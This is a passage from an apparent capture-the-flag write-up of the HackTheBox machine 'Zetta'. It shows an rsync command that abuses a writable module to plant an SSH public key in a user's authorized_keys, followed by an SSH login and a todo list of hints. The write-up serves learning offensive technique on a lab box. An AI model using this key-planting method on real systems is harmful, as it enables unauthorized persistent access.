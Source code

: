 

    root@kali# cat user.txt 
    a575bdb3************************



### SSH as roy

But more than access to his home directory, I would like a shell as roy.
I remember that I have write access to this rsync module (or directory),
so I'll write my public key to `.ssh/authorized_keys` and ssh in. I
can't just copy the file into a folder that doesn't exist. So I'll
generate a key and put the public key into a directory on my machine
`.ssh/authorized_keys`. Then I'll use `-aR` to copy the structure over:



    root@kali# rsync -aR .ssh/  rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy/



Once I do that, I can ssh with the private key:



    root@kali# ssh -i ~/id_rsa_generated roy@10.10.10.156
    Linux zetta 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64
    roy@zetta:~$



## Shell as postgres

### Enumeration

This box has hints scattered in a couple places.

#### tudu

In the home directory next to the flag is `.tudu.xml`. This contains a
todo list. I can view it as xml (which I did when first solving), or I
can open it in the [Tudu](https://gitlab.com/tudu/tudu), which is way
cooler looking:

![](/img/zetta-tudu.gif)

There's a bunch of hints in there, as well as laying out the box so far.



    40% Homepage
       [X] Choose bootstrap theme
       [X] Create temporary homepage
       [ ] Add more contents to the homepage
       [ ] Add screenshots of the mobile apps
       [ ] Add app store links for the mobile apps
    36% Server
       57% HTTP Server
               [X] Decide server: Apache vs. nginx
               [X] Install server
               [X] Configure server to serve static pages only
               [X] Copy preliminary homepage to /var/www.md
               [ ] Testing
               [ ] Configure letsencrypt for HTTPS
               [ ] Monitoring
       33% Network
               [X] Test IPv6 connectivity
               [ ] Add ip6tables rules
               [ ] Check for IPv4 specific service configuration
            0% RSYNC Server
               [ ] Rework rsyncd.conf because of security incident